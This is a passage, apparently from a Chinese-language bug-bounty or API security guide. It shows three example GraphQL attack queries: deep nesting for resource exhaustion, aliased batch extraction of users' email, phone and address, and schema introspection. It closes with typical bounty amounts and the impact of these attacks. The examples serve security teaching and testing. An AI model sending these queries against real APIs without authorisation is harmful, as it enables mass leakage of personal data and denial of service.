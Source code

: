 #### 典型攻擊查詢
```graphql
# 1. 深度查詢攻擊 (資源耗盡)
query DeepQuery {
    user {
        friends {
            friends {
                friends {
                    friends {
                        friends {
                            # 繼續嵌套...
                            personalInfo {
                                sensitiveData
                            }
                        }
                    }
                }
            }
        }
    }
}

# 2. 批次查詢用戶數據
query BatchDataExtraction {
    user1: user(id: 1) { email, phone, address }
    user2: user(id: 2) { email, phone, address }
    user3: user(id: 3) { email, phone, address }
    # ... 繼續到 user1000
}

# 3. 內省查詢 (資訊收集)
query IntrospectionAttack {
    __schema {
        types {
            name
            fields {
                name
                type {
                    name
                }
            }
        }
    }
}
```

#### 商業價值
- **平均賞金**: $1,900-$7,800
- **常見場景**: 現代 Web API、移動應用後端、微服務架構
- **影響程度**: 大量資料洩露、服務拒絕攻擊

---
